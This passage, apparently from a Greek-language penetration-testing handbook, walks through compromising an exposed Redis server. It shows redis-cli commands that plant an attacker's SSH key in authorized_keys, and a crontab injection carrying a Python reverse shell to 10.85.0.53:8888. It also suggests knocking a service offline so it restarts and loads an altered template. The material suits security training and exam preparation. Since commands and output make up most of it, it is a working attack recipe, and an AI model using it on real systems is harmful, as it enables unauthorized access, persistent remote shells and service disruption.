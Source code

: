 Σημειώστε ότι **πολλές μηχανές προτύπων αποθηκεύουν** τα πρότυπα στη **μνήμη**, οπότε ακόμη και αν τα αντικαταστήσετε, το νέο **δεν θα εκτελείται**. Σε αυτές τις περιπτώσεις, είτε ο προγραμματιστής άφησε ενεργό το αυτόματο επαναφόρτωμα είτε πρέπει να κάνετε DoS στην υπηρεσία (και να περιμένετε ότι θα επανεκκινηθεί αυτόματα).
{% endhint %}

### SSH

Παράδειγμα [από εδώ](https://blog.adithyanak.com/oscp-preparation-guide/enumeration)

Παρακαλώ να είστε προσεκτικοί ότι το **`config get dir`** αποτέλεσμα μπορεί να αλλάξει μετά από άλλες χειροκίνητες εντολές εκμετάλλευσης. Συνιστάται να το εκτελέσετε πρώτα αμέσως μετά την είσοδο στο Redis. Στην έξοδο του **`config get dir`** μπορείτε να βρείτε το **home** του **redis user** (συνήθως _/var/lib/redis_ ή _/home/redis/.ssh_), και γνωρίζοντας αυτό ξέρετε πού μπορείτε να γράψετε το αρχείο `authenticated_users` για πρόσβαση μέσω ssh **με τον χρήστη redis**. Αν γνωρίζετε το home άλλου έγκυρου χρήστη όπου έχετε δικαιώματα εγγραφής μπορείτε επίσης να το εκμεταλλευτείτε:

1. Δημιουργήστε ένα ζεύγος δημόσιου-ιδιωτικού κλειδιού ssh στον υπολογιστή σας: **`ssh-keygen -t rsa`**
2. Γράψτε το δημόσιο κλειδί σε ένα αρχείο : **`(echo -e "\n\n"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`**
3. Εισάγετε το αρχείο στο redis : **`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`**
4.  Αποθηκεύστε το δημόσιο κλειδί στο αρχείο **authorized\_keys** στον διακομιστή redis:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```
5. Τέλος, μπορείτε να **ssh** στον **διακομιστή redis** με το ιδιωτικό κλειδί : **ssh -i id\_rsa redis@10.85.0.52**

**Αυτή η τεχνική είναι αυτοματοποιημένη εδώ:** [https://github.com/Avinash-acid/Redis-Server-Exploit](https://github.com/Avinash-acid/Redis-Server-Exploit)

### Crontab
```
root@Urahara:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.85.0.53\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.85.0.52 -x set 1
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~# redis-cli -h 10.85.0.52 config set dbfilename root
OK
root@Urahara:~# redis-cli -h 10.85.0.52 save
OK
```
Το τελευταίο παράδειγμα είναι για Ubuntu, για **Centos**, η παραπάνω εντολή θα πρέπει να είναι: `redis-cli -h 10.85.0.52 config set dir /var/spool/cron/`
